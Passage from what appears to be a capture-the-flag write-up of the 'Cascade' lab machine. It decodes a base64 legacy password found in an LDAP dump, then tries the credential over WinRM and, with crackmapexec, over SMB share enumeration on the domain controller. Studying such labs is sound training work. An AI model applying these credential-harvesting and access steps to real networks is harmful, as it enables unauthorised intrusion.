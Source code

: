 ````bash
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
````

# FOOTHOLD 
---

````bash
cascadeLegacyPwd: clk0bjVldmE=

❯ echo 'clk0bjVldmE=' | base64 -d
rY4n5eva#  
````

As we noticed before the port x was open so we tryed to log in but it didnt work

````powershell
❯ nxc winrm 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva
````

Now, with the credentials of r.thompson, we can successfully enumerate the SMB.

````powershell
❯ crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares

SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
````